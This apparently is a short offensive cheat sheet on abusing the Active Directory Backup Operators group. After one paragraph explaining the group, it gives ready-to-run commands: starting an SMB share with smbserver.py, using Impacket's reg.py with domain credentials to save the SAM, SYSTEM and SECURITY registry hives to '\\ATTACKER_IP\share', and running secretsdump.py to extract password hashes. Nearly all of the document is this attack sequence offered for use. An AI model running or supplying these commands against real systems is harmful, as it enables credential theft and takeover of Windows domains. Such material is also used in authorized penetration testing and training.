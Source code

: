 
**Backup Operators** is a built-in group in Active Directory environments that grants members the ability to back up and restore files, regardless of file permissions. Members of this group can bypass NTFS permissions to perform backup and restore operations on the system.

### Create a location to save information

```bash
mkdir share
cd share
sudo smbserver.py share . -smb2support
```

### Run the attack

```bash
reg.py domain/user:password@target save -keyName 'HKLM\SAM' -o '\\ATTACKER_IP\share'
reg.py domain/user:password@target save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\share'
reg.py domain/user:password@target save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\share'
```

### Extract the information

```bash
secretsdump.py -sam SAM.save -security SECURITY.save -system SYSTEM.save LOCAL
```

